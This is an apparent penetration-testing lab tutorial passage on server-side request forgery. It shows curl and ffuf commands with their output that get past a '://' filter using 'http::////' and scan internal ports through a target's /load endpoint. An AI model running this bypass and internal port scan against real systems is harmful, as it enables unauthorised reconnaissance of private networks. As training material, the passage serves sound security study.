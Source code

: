 We have received an `unknown url type` error message. It seems the web application is removing `://` from our request. Let's try to overcome this situation by modifying the URL.

#### cURL - Interacting with the Target

```shell
p3ta@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 99
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 14:55:10 GMT

<html><body><h1>Resource: http://127.0.0.1:1</h1><a>[Errno 111] Connection refused</a></body></html>
```

In this case, the web application returns some HTML rendered content containing the resource we are trying to fetch. This response will affect our internal service discovery if we use the size of the response as a filter as it will change depending on the port. Fortunately for us, ffuf supports regular expressions for filtering. We can use this ffuf feature to use the error number for filtering responses, as follows.

#### Port Fuzzing

```shell
p3ta@htb[/htb]$ ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:PORT" -fr 'Errno[[:blank:]]111'


        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:PORT
 :: Wordlist         : PORT: ./ports.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Regexp: Errno[[:blank:]]111
________________________________________________

80                      [Status: 200, Size: 153, Words: 5, Lines: 6]
5000                    [Status: 200, Size: 123, Words: 3, Lines: 5]
:: Progress: [65535/65535] :: Job [1/1] :: 249 req/sec :: Duration: [0:04:06] :: Errors: 0 ::
```
